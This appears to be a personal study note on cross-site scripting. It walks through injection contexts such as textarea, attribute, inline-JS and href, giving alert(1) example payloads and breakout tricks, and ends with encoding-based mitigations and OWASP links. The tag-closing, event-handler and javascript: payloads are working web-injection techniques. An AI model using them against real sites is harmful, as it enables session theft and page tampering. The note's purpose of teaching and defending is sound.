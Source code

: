 When you think of XSS most of the time, response body should come to your mind as 99% of XSS happens through HTTP response body

When you make a request to a website, mainly 3 different type of files are returned: HTML, CSS and, JS files

#### Quick test for XSS using 
```
test'"><
```

XSS is basically a browser manipulation.

#### Closing tags before injecting the XSS

Sometimes, when the XSS injection is in a tag (ex: `<textarea>`), the browser might not execute the script. Therefore, you need to close the tag first:

Here this XSS Injection **does not work** as the browser does not understand. To confirm this,  you need to look at the page source code

```html
<!-- ❌ Not Working XSS Injection -->
<html>
	<body>
		<textarea>
			Hello, <script>alert(1)</script>
		</textarea>
	</body>
</html>
```

```html
<!-- ✅ Working XSS Injection -->
<html>
	<body>
		<textarea>
			Hello, </textarea><script>alert(1)</script>
		</textarea>
	</body>
</html>
```


> [!NOTE] HTML Context `< >`
> HTML Context "`< >`" is very important when it comes to XSS as without it you can't do XSS

## Attribute Context

Imagine you are submitting a form and your payload goes here
```html
<html>
	<body>
		<form>
			<input name="keyword" value="<script>alert(1)</script>">
		</form>
	</body>
</html>
```

The payload above **won't work** as your injection is stuck inside the value
You have to first look at where you are (or will be after submitting form)
For your XSS Injection to work, you first have to go back to HTML context (outside of input value)

```html
<html>
	<body>
		<form>
		<input name="keyword" value=""&gt;&lt;script&gt;alert(1)&lt;/script&gt; ">
		</form>
	</body>
</html>
```

Or even better
```html
<html>
	<body>
		<form>
		<input name="keyword" value=" " onmouseover="alert(1)">
		</form>
	</body>
</html>
```

> [!info] IE version 8 and below XSS trick
> For IE version 8 (or 9) and below, backticks cause the attribute string to end
> ```html
> <input name="keyword" value=""`` >
> ```

In Total there are about 29 Contexts

## JSINLINE Context

```http
www.x.com/?id=alert(1)
```

```html
<html>
	<body>
		<input type="button" onclick="saveForm(alert(1))">
	</body>
</html>
```

## HREF Context

If in some way, user data is in a link tag `href` like this
```html
<html>
	<body>
		<a href="USER_DATA">click me</a>
	</body>
</html>
```

then you can try doing this:
```html
<html>
	<body>
		<a href="javascript:alert(1)">click me</a>
	</body>
</html>
```

> [!attention] `javascript:alert(1)`
> `javascript:alert(1)` only works in `href` attribute of `<a>` tag

## XSS types:

1) [[Reflected XSS]]
2) [[Stored XSS]]
3) [[Self XSS]]
4) [[DOM XSS]]


## Mitigation
You have to encode HTML Context (`< >`) characters
Meaning:
`<` = `&lt;`
`>` = `&gt;`

INPUT VALIDATION
OUTPUT ENCODING

```html
<html>
	<body>
		<a href="{{ encoder.HrefContextEncoder($untrusted_data) }}">click me</a>
	</body>
</html>
```

## Related links:

Also look at [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

Check out these important videos by mdisec to learn more:
1)  [XSS Part 1](https://youtu.be/NFD3vZ-lIgI?list=PLwP4ObPL5GY940XhCtAykxLxLEOKCu0nT)
2) [XSS Part 2]()